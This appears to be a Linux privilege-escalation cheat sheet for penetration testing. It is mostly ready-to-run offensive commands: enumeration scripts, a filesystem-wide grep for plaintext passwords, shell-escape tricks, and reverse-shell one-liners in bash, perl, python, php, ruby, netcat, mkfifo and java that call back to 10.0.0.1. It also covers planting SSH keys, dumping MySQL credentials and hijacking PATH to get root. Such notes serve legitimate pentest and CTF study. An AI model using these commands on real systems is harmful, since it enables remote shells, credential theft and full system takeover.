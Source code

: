 ### [Resources for Linux Privesc]
https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS

https://github.com/diego-treitos/linux-smart-enumeration

https://github.com/lucyoa/kernel-exploits

### [Running your scripts]
```
chmod +x linpeas.sh
./linpeas > enumData.log

chmod +x ./lse.sh
./lse.sh -l2 >> enumData.log
```

### [Manual enumeration]
```
Enumerating linux OS
cat /etc/os-release

Who else logged in? 
who w last

Enumerating Kernel 
uname -a, env, whoami, history, pwd

Are you in sudoers file? 
sudo -l, cat /etc/sudoers

Other super users? grep -v -E "^#" /etc/passwd | awk -F: '$3 == 0 { print $1}'

Able to run the following binaries with current user permissions:
find / -perm -u=s 2>/dev/null

Find files with SUID set
find . -perm /4000 

sudo -l
```

Processes:
top

https://raw.githubusercontent.com/carlospolop/linux-privilege-escalation-awsome-script/master/linpeas.sh
https://github.com/1N3/PrivEsc/tree/master/linux/scripts

Enumeration of plaintext password
grep -rnw '/' -ie 'pass' --color=always
grep -rnw '/' -ie 'DB_PASS' --color=always
grep -rnw '/' -ie 'DB_PASSWORD' --color=always
grep -rnw '/' -ie 'DB_USER' --color=always

### [Generating Public Keys and Xfering to your target]
```
1. ssh-keygen to create your paired keys (private + public)
2. cat your key.pub and copy and paste the public key data over to the host's authorized keys in /home/username/.ssh/authorized_keys
3. ssh into the box using your private key ssh -i privatekey username@IP
```

### [tty shell]
```
python -c 'import pty; pty.spawn("/bin/sh")'
echo os.system('/bin/bash')
/bin/sh -i
perl —e 'exec "/bin/sh";'
perl: exec "/bin/sh";
ruby: exec "/bin/sh"
lua: os.execute('/bin/sh')
(From within IRB)
exec "/bin/sh"
(From within vi)
:!bash
(From within vi)
:set shell=/bin/bash:shell
(From within nmap)
!sh
```
## [reverse TCP Shell's]

#### bash
```
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```

### perl
```
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

### python
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### php
```
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

### ruby
```
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

### Netcat
```
nc -e /bin/sh 10.0.0.1 1234
```

### mkfifo
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```

### java
```
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```
More information regarding reverse TCP:
http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

### [SCP Transfer]
```
Local to Remote
scp file.txt username@IP:/remote/directory
scp -i private_key file.txt username@IP:/remote/directory
(Specify Port)
scp -P 2222 file username@IP:/remote/directory


remote to local
scp file.txt file.txt username@IP:/local/directory
scp -i private_key file.txt username@IP:/local/directory
(Moving a folder)
scp -r foldername username@IP:/local/directory
(Specify Port)
scp -P 2222 file username@IP:/local/directory
```

### [Extracting Creds from mysql using mysqldump util]
```
Local
mysqldump -u mysql_username -ppassword Database_Name
mysqldump -u mysql_username -ppassword Database table_name

Remotely
mysqldump -h IP -P PORT -u mysql_username -ppassword Database_Name
mysqldump -h IP -P PORT -u mysql_username -ppassword Database_Name Table_Name
```

### [Abusing PATH]
```
Abusing PATH allows you to trick a program into executing your payload instead of the intended program.

/usr/local/sbin/FILE
export PATH=/My/location/of/my/fake/FILE:$PATH

What's inside of FILE? FILE is actually a bash script that executes a payload
cat FILE
whoami

What you should see when the exploit works:
root
```
More information regarding abusing PATH
https://www.hackingarticles.in/linux-privilege-escalation-using-path-variable/
